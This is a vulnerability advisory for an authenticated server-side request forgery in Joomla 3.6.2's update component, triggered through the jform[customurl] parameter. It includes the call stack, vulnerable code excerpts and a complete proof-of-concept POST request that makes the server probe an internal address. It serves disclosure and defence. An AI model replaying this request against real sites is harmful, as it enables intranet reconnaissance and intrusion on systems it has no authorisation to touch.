


# SSRF vulnerability in `checkForSelfUpdate` Function of `view.html.php` File (Joomla 3.6.2 version)

## 0x01 Affected version

vendor: https://github.com/joomla/joomla-cms

version: 3.6.2

php version: 7.x


## 0x02 Vulnerability description

A Server-Side Request Forgery (SSRF) in `checkForSelfUpdate` function of Joomla 3.6.2 allows remote attackers to force the application to make arbitrary requests via injection of arbitrary URLs into the `jform[customurl]` parameter. We should note that the vulnerability requires authentication before it can be triggered.


The vulnerable code is located in the `checkForSelfUpdate()` function in the `administrator/components/com_joomlaupdate/views/default/view.html.php` file. Because the function does not perform sufficient checksumming on the `jform[customurl]` parameter, the tainted variable into the tainted function `curl_exec` at the file `libraries/src/Http/Transport/CurlTransport.php`, and after the `curl_exec` function is executed it sends a request to the URL specified by the `jform[customurl]` parameter, eventually leading to an SSRF vulnerability.


Function call stack information related to the SSRF vulnerability.

```
Joomla\CMS\Http\Transport\CurlTransport->request (/var/www/html/joomla/libraries/src/Http/Transport/CurlTransport.php:68)
Joomla\CMS\Http\Http->get (/var/www/html/joomla/libraries/src/Http/Http.php:179)
Joomla\CMS\Updater\UpdateAdapter->getUpdateSiteResponse (/var/www/html/joomla/libraries/src/Updater/UpdateAdapter.php:257)
Joomla\CMS\Updater\Adapter\ExtensionAdapter->findUpdate (/var/www/html/joomla/libraries/src/Updater/Adapter/ExtensionAdapter.php:315)
Joomla\CMS\Updater\Updater->getUpdateObjectsForSite (/var/www/html/joomla/libraries/src/Updater/Updater.php:286)
Joomla\CMS\Updater\Updater->findUpdates (/var/www/html/joomla/libraries/src/Updater/Updater.php:167)
JoomlaupdateViewDefault->checkForSelfUpdate (/var/www/html/joomla/administrator/components/com_joomlaupdate/views/default/view.html.php:229)
```


Location of the function in the Web UI that can trigger the vulnerability



Code for the location of the tainted inflow

file path: `administrator/components/com_joomlaupdate/views/default/view.html.php`

```php
	private function checkForSelfUpdate()
	{
		$db = JFactory::getDbo();

		$query = $db->getQuery(true)
			->select($db->quoteName('extension_id'))
			->from($db->quoteName('#__extensions'))
			->where($db->quoteName('element') . ' = ' . $db->quote('com_joomlaupdate'));
		$db->setQuery($query);

		try
		{
			// Get the component extension ID
			$joomlaUpdateComponentId = $db->loadResult();
		}
		catch (RuntimeException $e)
		{
			// Something is wrong here!
			$joomlaUpdateComponentId = 0;
			JFactory::getApplication()->enqueueMessage($e->getMessage(), 'error');
		}

		// Try the update only if we have an extension id
		if ($joomlaUpdateComponentId != 0)
		{
			// Always force to check for an update!
			$cache_timeout = 0;

			$updater = JUpdater::getInstance();
			$updater->findUpdates($joomlaUpdateComponentId, $cache_timeout, JUpdater::STABILITY_STABLE);
...
}
```


The location of the code that ultimately triggers the vulnerability

file path:`libraries/src/Http/Transport/CurlTransport.php`

```php
	public function request($method, Uri $uri, $data = null, array $headers = null, $timeout = null, $userAgent = null)
	{
		// Setup the cURL handle.
		$ch = curl_init();
    
		$options = array();
    ...
		// Set the cURL options.
		curl_setopt_array($ch, $options);

		// Execute the request and close the connection.
		$content = curl_exec($ch);
    ...
  }
    
```

Because the `jform[customurl]` parameter is unrestricted, it is also possible to use the server side to send requests, such as probing intranet web services. The corresponding PoC is as follows:

```

POST /joomla/administrator/index.php?option=com_config HTTP/1.1
Host: 172.16.119.147
Content-Length: 223
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.16.119.147
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.16.119.147/joomla/administrator/index.php?option=com_config&view=component&component=com_joomlaupdate
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: phpbb3_2gfmo_u=2; phpbb3_2gfmo_k=ihvyjpdjg636ce09; phpbb3_2gfmo_sid=6b0b29691a714915fc5fc32e9eac4f59; phpbb3_f3tlt_u=2; phpbb3_f3tlt_k=b4060b6e677d8bcc; phpbb3_f3tlt_sid=fb30c1894184e7a1d238c8b28a2e86f7; my_wikiUserName=Admin; my_wiki_session=jattk79nu3qve3ktikp16lr66s4bngt7; f80d7dddb61ce9ba3aee0802f4d1b376=ghd4ggm02o5g9c6fnnqdfrunmf; 54e7d701daf706e028b5135c2ab6049b=04l38uemrl4jht6f1mti2p40f3
x-custom-ip-authorization: 127.0.0.1
Connection: close

jform%5Bupdatesource%5D=custom&jform%5Bminimum_stability%5D=4&jform%5Bcustomurl%5D=http%3A%2F%2F172.16.119.1%2Ffuzz&id=28&component=com_joomlaupdate&return=&task=config.save.component.save&99341813a8ce4b141b765ffbf23b0148=1
```

Examples of triggered vulnerabilities



## 0x03 Acknowledgement

z3